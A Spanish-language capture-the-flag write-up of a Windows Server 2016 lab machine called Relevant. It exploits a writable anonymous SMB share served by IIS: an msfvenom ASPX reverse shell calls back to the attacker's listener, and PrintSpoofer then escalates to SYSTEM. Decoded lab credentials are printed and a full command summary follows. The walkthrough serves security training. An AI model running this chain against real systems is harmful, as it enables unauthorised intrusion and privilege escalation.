# Write-up Relevant

**Autor**: Asier González

Nota: en esta máquina se especifica que no se use Metasploit.

## Reconocimiento

Empiezo con `nmap` para ver puertos, servicios y versión del sistema:

```bash
nmap -sC -sV -O -Pn -p- -T4 IP
```

Los puertos que encuentro son:

- `80/tcp` -> IIS `10.0`
- `135/tcp` -> RPC
- `139/tcp` -> SMB
- `445/tcp` -> SMB
- `3389/tcp` -> RDP
- `49663/tcp`
- `49666/tcp`
- `49667/tcp`

También identifico que la máquina es un `Microsoft Windows Server 2016 Standard 14393`.



## Enumeración

Empiezo por SMB para ver si hay shares accesibles sin autenticación:

```bash
smbclient -L //IP -N
```



Encuentro un share llamado `nt4wrksv`, que ya pinta interesante. Me conecto y listo su contenido:

```bash
smbclient //IP/nt4wrksv -N
```

Hago un `ls` y veo un archivo llamado `passwords.txt`, así que lo descargo con `get passwords.txt`.




Intento descifrar el contenido y, tras probar en CyberChef, veo que realmente está en Base64. Al decodificarlo obtengo:

- `Bob` -> `!P@$$W0rD!123`
- `Bill` -> `Juw4nnaM4n420696969!$$$`



Pruebo esas credenciales en SMB, pero no me sirven para sacar nada especialmente útil, así que decido mirar la parte web con más detalle.

La IP principal me lleva a la página por defecto de IIS, pero hay tres puertos altos que suelen apuntar a servicios backend:

- `49663`
- `49666`
- `49667`

De esos tres, el único que me responde de forma útil es `49663`.

Lanzo `dirsearch` sobre ese puerto:

```bash
dirsearch -u http://IP:49663/ -e -x 400,401,403,404,500 -r -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Encuentro un directorio llamado `nt4wrksv`, que coincide con el share que ya había visto por SMB.



Si entro en `http://IP:49663/nt4wrksv/`, veo que existe pero no lista contenido. Como ya sabía que dentro había un archivo llamado `passwords.txt`, pruebo a pedirlo directamente:

```text
http://IP:49663/nt4wrksv/passwords.txt
```

Y efectivamente se puede leer desde el navegador.



Como además tengo acceso al share sin credenciales, intento subir un archivo para comprobar si puedo ejecutar algo desde ese directorio. El resultado es positivo: puedo escribir en el recurso compartido.



## Explotación

Creo un payload ASPX con `msfvenom` para obtener una reverse shell:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=TU_IP LPORT=4445 -f aspx -o asier.aspx
```



Pongo un listener con:

```bash
nc -lvnp 4445
```

Después subo el archivo al share:

```bash
smbclient //IP/nt4wrksv -N
put asier.aspx
```



Ahora solo queda ejecutarlo desde el navegador:

```text
http://IP:49663/nt4wrksv/asier.aspx
```

Y obtengo una shell como `iis apppool\defaultapppool`.



## Escalada de privilegios

Revisando privilegios, veo que tengo `SeImpersonatePrivilege`, que ya suele ser una vía muy clara de escalada.



Me muevo a la carpeta donde está publicado el contenido web:

```powershell
cd C:\inetpub\wwwroot\nt4wrksv
```

Aprovecho ese mismo directorio para subir `PrintSpoofer64.exe`.

Lo descargo desde:

```text
https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
```

Y lo subo por SMB:

```bash
smbclient //IP/nt4wrksv -N
put PrintSpoofer64.exe
```

Después lo ejecuto en la víctima:

```powershell
PrintSpoofer64.exe -i -c cmd
```



## Resultado

Se abre una `cmd` con privilegios de `SYSTEM`.



## Resumen de comandos directo a SYSTEM/root

1. `nmap -sC -sV -O -Pn -p- -T4 IP`
2. `smbclient -L //IP -N`
3. `smbclient //IP/nt4wrksv -N`
4. `get passwords.txt`
5. Decodificar `passwords.txt` en Base64
6. `dirsearch -u http://IP:49663/ -e -x 400,401,403,404,500 -r -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
7. `msfvenom -p windows/x64/shell_reverse_tcp LHOST=TU_IP LPORT=4445 -f aspx -o asier.aspx`
8. `nc -lvnp 4445`
9. `smbclient //IP/nt4wrksv -N`
10. `put asier.aspx`
11. Ejecutar `http://IP:49663/nt4wrksv/asier.aspx`
12. `whoami /priv`
13. `smbclient //IP/nt4wrksv -N`
14. `put PrintSpoofer64.exe`
15. `cd C:\inetpub\wwwroot\nt4wrksv`
16. `PrintSpoofer64.exe -i -c cmd`
17. `whoami`
